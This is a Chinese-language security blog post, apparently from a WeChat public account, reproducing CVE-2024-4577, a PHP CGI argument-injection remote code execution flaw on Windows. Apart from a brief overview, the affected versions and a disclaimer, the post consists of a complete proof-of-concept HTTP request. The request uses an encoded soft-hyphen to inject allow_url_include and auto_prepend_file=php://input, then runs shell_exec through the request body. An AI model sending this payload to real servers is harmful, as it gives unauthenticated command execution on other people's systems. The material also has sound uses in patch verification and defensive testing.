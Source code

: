 #  【漏洞复现】PHP CGI参数注入RCE漏洞(CVE-2024-4577)   
YGnight  night安全   2024-06-09 10:43  
  
公众号新规  
只对常读  
和  
星标的公众号才能展示大图推送，  
建议大家把公众号“  
n  
i  
g  
h  
t  
安  
全”设为  
星  
标，  
否  
则  
可  
能  
就  
看  
不  
到  
啦  
！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6sHg0pvRw6MpQSvVF3CeJ83RS0Ys1YBXC1vM6icvsxKialdwur2lAFAsQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6kXG7JA6Rbic2FFaqy9dPWrQlwfRNCPfyicibm6Evv39Z6VttiagBARRQgw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
免责声明  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqg4CicjYhkyn7j8xeutLIIGlA3Pam1Oxz5ujOUsmPibr5J9NCiagtp8nGEEXPeJiaUeWkN3v1XXSS9Vfw/640?wx_fmt=gif "")  
  
  
  
night安全致力于分享技术学习和工具掌握。然而请注意不得将此用于任何未经授权的非法行为，请您严格遵守国家信息安全法律法规。任何违反法律、法规的行为，均与本人无关。如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞概述  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
PHP程序语言在设计时忽略Windows操作系统内部对字元编码转换的Best-Fit特性，导致未认证的攻击者可透过特定的字元序列绕过旧有CVE-2012-1823的保护；透过参数注入等攻击在远端PHP服务器上执行任意代码。  
  
建站集成软件包XAMMP Windows版本（使用语系为繁体中文950、日文932、简体中文936）默认配置下受该漏洞影响。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
影响版本  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
  
PHP 8.3 < 8.3.8PHP 8.2 < 8.2.20PHP 8.1 < 8.1.29  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
POC：  
```
GET /test.php?%add+allow_url_include%3don+%add+auto_prepend_file%3dphp://input HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 31

<?php echo shell_exec('dir');?>
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqgrl0hg3DprTH66IljPBvXZibm5axqLSjQ8EA1a9N0k8Td4Hgc16VBLj8LpFwEQXlyvWThQOJTKcibg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKpciaqHNr4Y60SPF1XeS358wiceQDUm8K5zh7RZsnknYxKJ37kkkcpWZg/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhia1cXxs2MiaTdgf2bBwXka6DCLEF53OGJWH7A9YU8LA95g10yEzvZgFYhwhV3OQX3qdtk7vIsWncw/640?wx_fmt=png&from=appmsg "")  
  
****  
扫  
码  
关  
注  
  
获  
得  
更  
多  
资  
讯  
  
****  
  
